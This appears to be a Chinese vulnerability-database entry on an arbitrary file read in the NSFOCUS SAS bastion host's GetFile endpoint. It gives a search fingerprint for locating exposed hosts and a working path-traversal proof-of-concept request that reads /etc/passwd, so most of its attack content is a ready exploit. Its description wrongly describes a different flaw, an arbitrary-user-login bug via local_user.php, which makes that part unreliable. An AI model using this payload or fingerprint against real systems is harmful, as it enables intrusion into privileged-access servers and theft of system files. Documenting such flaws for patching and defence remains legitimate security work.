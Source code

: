 # 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8.png)

漏洞存在于文件 GetFileController.php 文件中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691645164688-78430d67-4ce1-4d26-8854-5d330b034c5e.png)

验证POC

```plain
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![image.png](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1688361725621-1d85a406-2f2c-492a-8c0f-5d54ea282f2a.png)